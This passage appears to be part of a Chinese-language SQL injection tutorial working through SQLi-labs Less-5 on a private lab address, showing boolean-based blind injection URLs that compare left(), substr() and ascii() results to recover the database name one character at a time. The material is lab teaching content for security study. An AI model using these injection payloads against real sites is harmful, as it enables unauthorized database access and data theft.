 #### 3.3.5.4.**猜测数据库名**

Database()为 security，所以我们看他的第一位是否 > a,很明显的是 s > a,因此返回正确。

URL:http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),1)>'a'--+

![img](assets/dFWNec8OEUVZB6l.jpg) 

Database()为 security，所以我们看他的前两位是否 > sa,因此返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left(database(),2)>'sa'--+

![img](assets/CRjWGNsZ41YIcq2.jpg) 

用ascii来判断数据第一个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),1,1))=115--+

![img](assets/lSbWJAjYkBmeETI.jpg) 

用ascii来判断数据第二个字符是什么。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr(database(),2,1))=101--+

![img](assets/LruWzvZMslyCwPU.jpg) 
